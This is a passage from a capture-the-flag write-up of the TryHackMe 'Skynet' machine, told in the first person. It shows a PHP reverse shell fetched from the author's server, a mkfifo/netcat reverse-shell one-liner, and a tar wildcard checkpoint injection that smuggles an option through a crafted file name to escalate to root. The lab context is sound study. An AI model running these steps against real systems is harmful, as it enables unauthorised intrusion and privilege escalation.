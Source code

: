 ```
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:28:52 up  1:09,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
I could also see the machine call out to my local machine via the http server. 
```
ajread@aj-ubuntu:~/resources/revshells$ sudo python -m http.server 80
[sudo] password for ajread: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
[REDACTED] - - [24/Feb/2022 14:28:51] "GET /php-reverse-shell.php HTTP/1.0" 200 -
```
Then, I was able to find the user flag.
```
$ wc -c user.txt
33 user.txt
```
# Privilege Escalation 
Within the home directory of ```milesdyson```, there was an interesting backup file that is executed by root. 
```
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
Based on file permissions, I couldnt simply change the shell script to elevate privilege. 
```
www-data@skynet:/home/milesdyson/backups$ ls -la 
ls -la 
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Feb 24 16:20 backup.tgz
```
It looked like the shell script moved to the location of the website and compressed everything, using tar, as a method of backup. I found this website that explained an exploit for tar using checkpoints (https://swepstopia.com/wildcards-tar-and-checkpoints/). Checkpoints were originally created so that tar could conduct specific actions during its process if, for example, it is archiving a massive file/directory. According to the site, I could set up a checkpoint within tar that would be a reverse shell to my local machine. 

Following the site, I first needed to create a shell script and place it in the location where the tar/backup takes place. The shell script needed to call back to my local machine at a specific port. 
```
www-data@skynet:/var/www/html$ echo -n "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [REDACTED] 4444 >/tmp/f" > shell.sh
<ifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [REDACTED] 4444 >/tmp/f" > shell.sh
```
Then, I had to set up a checkpoint action for tar that would execute the shell script. 
```
www-data@skynet:/var/www/html$ touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
<ml$ touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"  
```
I set up a netcat listener to catch the reverse shell on my local machine. 
```
ajread@aj-ubuntu:~/TryHackMe/$ nc -lnvp 4444
```